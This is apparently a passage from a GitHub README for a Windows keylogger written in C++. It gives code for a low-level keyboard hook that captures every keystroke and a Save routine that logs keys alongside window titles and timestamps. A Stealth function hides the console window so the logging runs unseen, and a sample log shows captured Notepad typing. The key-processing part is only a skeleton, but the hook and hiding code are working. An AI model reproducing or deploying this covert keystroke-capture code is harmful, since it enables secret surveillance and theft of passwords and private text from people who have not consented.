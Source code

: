 ## Core Components🔐

### Keyboard Hook Implementation
```cpp
void SetHook() {
    _hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0);
}

LRESULT HookCallback(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0 && wParam == WM_KEYDOWN) {
        kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
        Save(kbdStruct.vkCode);
    }
    return CallNextHookEx(_hook, nCode, wParam, lParam);
}
```

### Key Processing System
```cpp
int Save(int key_stroke) {
    // Window tracking
    if (foreground) {
        // Log window changes with timestamp
    }
    
    // Key processing
    if (keyname.find(key_stroke) != keyname.end()) {
        // Handle special keys
    } else {
        // Process regular keys
    }
}
```

### Window Management
```cpp
void Stealth() {
#ifdef INVISIBLE
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 0);
    FreeConsole();
#endif
}
```

## Examples📌

### Example 1: Basic Keystroke Logging
Log Output:
```
[Window: *Hello_World - Notepad - at 2024-11-19T22:08:58+0200] hello_world
```
<p align="center">
 <img src="ex1.png" alt="Ex1" width="700">
  <br>  <em>Basic text input logging with window information</em>
</p>
